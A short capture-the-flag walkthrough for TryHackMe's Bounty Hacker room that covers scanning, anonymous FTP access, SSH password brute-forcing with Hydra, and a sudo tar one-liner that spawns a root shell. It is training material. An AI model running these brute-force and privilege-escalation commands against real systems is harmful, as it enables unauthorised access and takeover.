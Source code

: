 # This is a walkthrough for tryhackme's Bounty Hacker room.
# URL = https://tryhackme.com/room/cowboyhacker

# Enumeration:-

Lets run quick nmap scan.
```bash
sudo nmap <ip>
```
This returned 3 open ports.
port      |service
----------|----------
21        |FTP
22        |SSH
80        |Web server

Let's enumerate ftp port first.
Connect to it. Type,
```bash
ftp <ip>
```
Login using anonymous name.
Now, let's view files using ls command.
There are two files named as locks.txt and task.txt.
Get them to your pc and see whats inside.
First one has a username and other has list of words which is a password list for bruteforcing.

# Gaining access:-

Since we have username and password list, let's do a bruteforcing attack using Hydra.
Hydra is a tool we are going to use to do bruteforcing.

Type:-
```bash
hydra -l <username> -P <password_list> -t 1 <ip> ssh
```

Now, we know the password.
Let's login over ssh.
Type:-
```bash
ssh <username>@<ip>
```
And enter the password you got.

# Privilege Escaltion:-

Type sudo -l and see that we can run tar app as a root.
Let's go to gtfobins and get the sudo exploit for tar.
If you can't find it here type:-
```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
Once you execute above command, you'll become a root user.

Congrats, now get the flags.
